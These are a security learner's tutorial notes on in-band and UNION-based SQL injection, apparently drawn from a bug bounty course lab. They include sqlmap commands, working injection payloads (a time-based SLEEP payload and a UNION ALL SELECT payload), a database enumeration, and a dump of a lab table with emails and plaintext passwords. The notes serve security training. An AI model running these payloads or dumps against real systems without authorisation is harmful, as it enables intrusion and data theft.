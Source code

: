 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# In Band

{% hint style="info" %}
In-Band SQLi occrus when an attacker uses the same channel to both execute malicious SQL queries and retrieve the results.
{% endhint %}

## Basic Workflow

> _The example below is based on TCM's_ [_Practical Bug Bounty_](https://academy.tcm-sec.com/p/practical-bug-bounty) _course._

The web application that we need to test has a `search` field associated with the `username` parameter (Figure 1).

<figure><img src="../../../../.gitbook/assets/web_sqli_inBand_usernameParam.png" alt=""><figcaption><p>Figure 1: Using the application as intented.</p></figcaption></figure>

By fuzzing the `username` parameter using Burp Intruder's built-in SQLi wordlist, we can see that the results of a successful payload are returned within the HTTP response (Figure 2), which makes this an In Band SQLi.

<figure><img src="../../../../.gitbook/assets/web_sqli_inBand_intruder.png" alt=""><figcaption><p>Figure 2: Fuzzing the <code>username</code> parameter with built-in SQLi payloads.</p></figcaption></figure>

Since the SQLi vulnerability is confirmed, we can write the request to a file (_right-click_ > _Copy to file_) and continue testing using [`sqlmap`](../../../../tools/web/sqlmap.md).

{% tabs %}
{% tab title="Basic Info" %}
{% code overflow="wrap" %}
```bash
$ sqlmap -r post_request.txt --batch
<SNIP>
POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 75 HTTP(s) requests:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=jeremy' AND (SELECT 6462 FROM (SELECT(SLEEP(5)))zkFr) AND 'GiCb'='GiCb

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: username=jeremy' UNION ALL SELECT NULL,NULL,CONCAT(0x7162766271,0x534a50534a684c7153486868667a4656547777534b5257724a66486c4a506858526c6c6a51467a6d,0x71716b6a71)-- -
---
[11:57:33] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: Apache 2.4.54, PHP 7.4.33
back-end DBMS: MySQL >= 5.0.12
```
{% endcode %}
{% endtab %}

{% tab title="Current DB" %}
```bash
# enumerating the current database
$ sqlmap -r post_request.txt --batch --current-db
<SNIP>
[12:04:04] [INFO] fetching current database
current database: 'bb-labs'
```
{% endtab %}

{% tab title="Tables" %}
```bash
$ sqlmap -r post_request.txt --batch -D bb-labs --tables
<SNIP>

[12:07:28] [INFO] fetching tables for database: 'bb-labs'
Database: bb-labs
[14 tables]
+------------------------+
| api0x01                |
| auth0x02               |
| auth0x03               |
| c0x03                  |
| csrf0x01               |
| csrf0x02               |
| idor0x01               |
| injection0x01          |
| injection0x02          |
| injection0x03_products |
| injection0x03_users    |
| injection0x04          |
| xss0x02                |
| xss0x03                |
+------------------------+
```
{% endtab %}

{% tab title="Data" %}
{% code overflow="wrap" %}
```bash
$ sqlmap -r post_request.txt --batch -D bb-labs -T injection0x01 --dump
<SNIP>

[12:09:12] [INFO] fetching columns for table 'injection0x01' in database 'bb-labs'
[12:09:12] [INFO] fetching entries for table 'injection0x01' in database 'bb-labs'
Database: bb-labs
Table: injection0x01
[3 entries]
+---------------------+------------------+----------+
| email               | password         | username |
+---------------------+------------------+----------+
| jeremy@example.com  | jeremyspassword  | jeremy   |
| jessamy@example.com | jessamyspassword | jessamy  |
| bob@example.com     | bobspassword     | bob      |
+---------------------+------------------+----------+
```
{% endcode %}
{% endtab %}
{% endtabs %}

## UNION attack

{% hint style="info" %}
A SQLi Union attack occurs when an attacker uses the `UNION` SQL operator to combine the results of malicious queries with the results of legitimate queries, often to retrieve additional data.
{% endhint %}

For a successful `UNION` attack two conditions must be met:

1. The invididual queries must return the same number of columns.
   * [How many columns](https://x7331.gitbook.io/boxes/services/sql/mysql-3306#number-of-columns) are returned from the original query?
2. The data types in each column must be compatible between the individual queries.
   * [Which columns are suitable](https://x7331.gitbook.io/boxes/services/sql/mysql-3306#data-types) to hold the results from the injected query?

### Number of Columns <a href="#number-of-columns" id="number-of-columns"></a>

Incrementing an `ORDER BY` clause's index until it errors. The number represents the column's index; when this exceeds the number of the actual columns we will get an index-related error (Figure 4a & 4b).

<figure><img src="../../../../.gitbook/assets/lab1_sqli_test_burp.png" alt=""><figcaption><p>Figure 3: Detecting SQLi.</p></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/lab1_orderby1_burp.png" alt=""><figcaption><p>Figure 4a: Indexing the first column.</p></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/lab1_orderby4_burp.png" alt=""><figcaption><p>Figure 4b: Indexing the 4th column returns a server error.</p></figcaption></figure>

We can also use the `UNION SELECT NULL` payload to achieve the same goal (Figure 5).

<figure><img src="../../../../.gitbook/assets/lab1_solved_burp.png" alt=""><figcaption><p>Figure 5: Enumerating the number of columns using UNION SELECT NULL.</p></figcaption></figure>

### Data Types

Typically the data we want to exfiltrate is in text form, thus, we must enumerate which column in the original query can hold this type of data. This can be done by passing a random string column by column until the server accepts it (Figure 6).

<figure><img src="../../../../.gitbook/assets/lab2_datatype_pos (1).png" alt=""><figcaption><p>Figure 6: Enumerating a column that accepts strings.</p></figcaption></figure>
